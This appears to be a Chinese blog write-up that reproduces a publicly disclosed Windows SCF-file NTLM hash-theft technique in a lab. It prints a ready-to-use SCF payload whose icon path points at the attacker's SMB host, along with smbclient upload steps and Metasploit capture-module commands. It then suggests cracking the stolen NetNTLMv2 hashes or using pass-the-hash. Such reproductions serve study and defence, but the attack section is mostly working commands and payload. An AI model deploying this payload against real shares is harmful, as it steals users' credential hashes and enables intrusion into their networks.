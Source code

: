  

##0x00前言

今天国外安全研究人员公布了一个通过SCF文件使用NTLM身份验证中的错误来偷取远程服务器的Window NTLM，该漏洞现在已被公开，通过下载微软的补丁可以解决，其补丁下载地址：https://portal.msrc.microsoft.com/en-us/security-guidance/releasenotedetail/313ae481-3088-e711-80e2-000d3a32fc99，这里我简单的复现了该漏洞利用情况！

##0x01漏洞复现

**漏洞原理**

该漏洞通过向网络中的共享目录中上传特殊构造的SCF文件(即在SCF文件中将图标文件指定到我们攻击机伪造的共享目录里)，故当任何用户访问该共享目录时便可获取它的Windows NTLM Hash，从而可以进一步破解Hash获得明文密码或者利用Pass The Hash攻击目标服务器，这是一个非常简单且实用的内网渗透技巧。

**实验环境**

**攻击机：10.0.0.86(Kali)**

**目标机/局域网主机B (文件共享主机)：10.0.0.21 (Windows 7 64 bits)**

**局域网主机A(受害主机）：10.0.0.201 (Windows 7 32 bits)**

**具体步骤：**

1、首先在目标机上创建一个共享文件夹,并赋予everyone为可读可写权限（例如：share）

![](http://upload-images.jianshu.io/upload_images/8689220-f514b7e968fcfd93.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![](http://upload-images.jianshu.io/upload_images/8689220-a34d7f0f42a411b1.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![](http://upload-images.jianshu.io/upload_images/8689220-85b4e150cbdde93e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

2.然后关闭共享的密码保护如下：
![](http://upload-images.jianshu.io/upload_images/8689220-c2affa8032abf307.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

3、接下来在攻击机kali上创建一个SCF文件，命令如下：

vimtest.scf

[Shell]

Command=2

IconFile=\\10.0.0.86\share\test.ico

[Taskbar]

Command=ToggleDeskto
![](http://upload-images.jianshu.io/upload_images/8689220-44df702280779cc7.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

注意：其中的10.0.0.86是指向我们的攻击机。

4、上传上面构造的SCF文件至目标服务器的共享目录里：

root@backlion:/tmp# smbclient//10.0.0.21/share

Enter root's password:

smb: \> puttest.scf

putting file test.scf as \test.scf (2.7 kb/s) (average2.7 kb/s)

smb: \>

![](http://upload-images.jianshu.io/upload_images/8689220-4a9dc1a4d81c0385.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


5、在攻击机上开启MSF的auxiliary/server/capture/smb模块来伪造共享目录并抓取用户的Windows密码Hash：

msf > use auxiliary/server/capture/smb

msf auxiliary(smb) > show options

msf auxiliary(smb) > set JoHNPWFILE /tmp/smbhash.txt

msf auxiliary(smb) > exploit-j

![](http://upload-images.jianshu.io/upload_images/8689220-c5bd541b26590b32.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


6、此时任何访问下面目标机上的共享目录的Windows用户的密码Hash都将可能被我们的攻击机获取到。

\\10.0.0.21\share

![](http://upload-images.jianshu.io/upload_images/8689220-45cfb3440f23268a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


局域网主机A：(10.0.0.201/win7_32)



7、在攻击机上我们也“如愿地”偷取到了这三个来自不同windows主机的用户的Windows密码Hash：

![](http://upload-images.jianshu.io/upload_images/8689220-2e648b3ef45d504b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


8、所有获取到的NTLM Hash保存在/tmp/smbhashes.txt_netntlmv2，如下：

![](http://upload-images.jianshu.io/upload_images/8689220-b2a5e3cc998b4e64.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


9、最后，我们可以通过John the Ripper或者其他在线Windows

Hash破解网站，来破解明文密码或者利用NTLM Hash来Pass

The Hash攻击
![](http://upload-images.jianshu.io/upload_images/8689220-b14bf9664c8b3357.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


##0x02参考

http://www.sysadminjd.com/adv170014-ntlm-sso-exploitation-guide/

https://room362.com/post/2016/smb-http-auth-capture-via-scf/